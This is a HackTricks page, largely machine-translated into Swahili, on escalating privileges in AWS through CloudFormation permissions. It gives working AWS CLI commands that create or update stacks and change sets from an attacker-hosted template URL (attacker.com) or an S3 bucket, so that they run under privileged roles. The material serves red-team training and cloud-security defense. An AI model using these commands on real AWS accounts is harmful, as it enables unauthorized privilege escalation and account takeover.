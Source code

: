 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Kwa maelezo zaidi kuhusu cloudformation angalia:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Mshambuliaji mwenye ruhusa hizi **anaweza kuongeza mamlaka** kwa kutunga **CloudFormation stack** na kiolezo maalum, kilichohifadhiwa kwenye seva yao, ili **kutekeleza vitendo chini ya ruhusa za jukumu lililobainishwa:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Katika ukurasa ufuatao una mfano wa **exploitation** na ruhusa ya ziada **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Katika kesi hii unaweza **kudhulumu stack ya cloudformation iliyopo** ili kuisasaisha na kupandisha ruhusa kama ilivyo katika hali ya awali:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipewe ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ikiwa una ruhusa hii lakini **hakuna `iam:PassRole`** bado unaweza **kusaidia stacks** zilizotumika na kutumia **IAM Roles walizo tayari wameambatanisha**. Angalia sehemu ya awali kwa mfano wa exploit (usionyeshe jukumu lolote katika sasisho).

The `cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipewe ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa tayari.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Mshambuliaji mwenye ruhusa za **kupitisha jukumu na kuunda & kutekeleza ChangeSet** anaweza **kuunda/sasisha stack mpya ya cloudformation kutumia huduma za cloudformation** kama ilivyo kwa CreateStack au UpdateStack.

Exploit ifuatayo ni **tofauti ya**[ **CreateStack moja**](./#iam-passrole-cloudformation-createstack) ikitumia **ruhusa za ChangeSet** kuunda stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` permission can be used to **kujipa ruhusa za `ChangeSet`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Hii ni kama njia ya awali bila kupitisha **majukumu ya IAM**, hivyo unaweza tu **kutumia yale yaliyounganishwa tayari**, badilisha tu parameter:
```
--change-set-type UPDATE
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya cloudformation ambayo tayari imeunganishwa.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Mshambuliaji anaweza kutumia ruhusa hizi kuunda/update StackSets ili kutumia majukumu ya cloudformation yasiyo na mipaka.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### `cloudformation:UpdateStackSet`

Mshambuliaji anaweza kutumia ruhusa hii bila ruhusa ya passRole kuupdate StackSets ili kutumia majukumu ya cloudformation yaliyounganishwa.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya cloudformation yaliyounganishwa.

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
